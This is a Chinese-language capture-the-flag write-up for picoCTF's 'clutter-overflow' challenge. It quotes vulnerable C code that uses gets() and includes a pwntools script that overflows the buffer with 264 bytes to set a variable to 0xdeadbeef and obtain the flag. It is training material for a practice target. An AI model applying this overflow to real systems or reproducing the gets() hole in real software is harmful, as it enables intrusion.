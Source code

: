 # clutter-overflow

Clutter, clutter everywhere and not a byte to use.

```
nc mars.picoctf.net 31890
```

https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall.c

https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall

## WP

首先打开题给C文件，看到关键信息如下。

```c
#define SIZE 0x100
#define GOAL 0xdeadbeef

...

gets(clutter);

if (code == GOAL) {
  printf("code == 0x%llx: how did that happen??\n", GOAL);
  puts("take a flag for your troubles");
  system("cat flag.txt");
} else {
  printf("code == 0x%llx\n", code);
  printf("code != 0x%llx :(\n", GOAL);
}
```

总而言之，我们的输入会被放置在一块名为`clutter`的缓存中，而程序一旦检测到`code`变量为`0xdeadbeef`时就会回显Flag。

因此我们的任务就是将`clutter`缓存溢出到`code`变量，并给`code`变量赋值`0xdeadbeef`。

将可执行文件进行反编译，发现缓冲区的实际大小其实是264个字节。

![](clutter-overflow.assets/1.png)

接下来的任务就很简单了，先用264个无意义字符填充缓冲区，然后给`code`赋值。脚本如下：

```python
from pwn import *

conn = remote('mars.picoctf.net', 31890)
payload = b'a' * 264 + b'\xef\xbe\xad\xde'
# payload = b'a' * 264 + p64(0xdeadbeef)
conn.sendline(payload)
conn.interactive()
```

注意，由于payload中存在不可打印字符，我们可以选择直接发送字节串（`b''`）或使用pwntools的`p64()`函数进行封装。

由于靶机中整型变量存储方式是小端序，因此在发送字节串时需要将目标值以十六进制数为基本单位进行逆序。

直接使用`p64()`函数的话会自动进行处理，不需要逆序。

![](clutter-overflow.assets/2.png)

发送payload后成功拿到Flag。

